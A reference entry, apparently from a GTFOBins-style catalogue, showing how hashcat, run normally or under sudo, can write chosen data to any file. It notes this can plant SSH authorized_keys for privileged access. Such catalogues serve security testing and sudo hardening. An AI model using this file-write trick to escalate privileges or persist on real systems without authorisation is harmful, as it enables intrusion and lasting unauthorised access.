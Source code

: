 ```yaml
---
description: It can append data to the end of existing files or create new files. Writing to SSH `authorized_keys` may be used to escalate or maintain privileged access.
functions:
  file-write:
    - code: |
        LFILE=file_to_write
        echo -n "DATA" > wordlist && echo -n "DATA" | md5sum | awk '{print $1}' > hash
        hashcat -m 0 -a 0 --quiet --potfile-disable -o "$LFILE" --outfile-format=2 --outfile-autohex-disable hash wordlist
  sudo:
    - code: |
        LFILE=file_to_write
        echo -n "DATA" > wordlist && echo -n "DATA" | md5sum | awk '{print $1}' > hash
        sudo hashcat -m 0 -a 0 --quiet --potfile-disable -o "$LFILE" --outfile-format=2 --outfile-autohex-disable hash wordlist
---
```

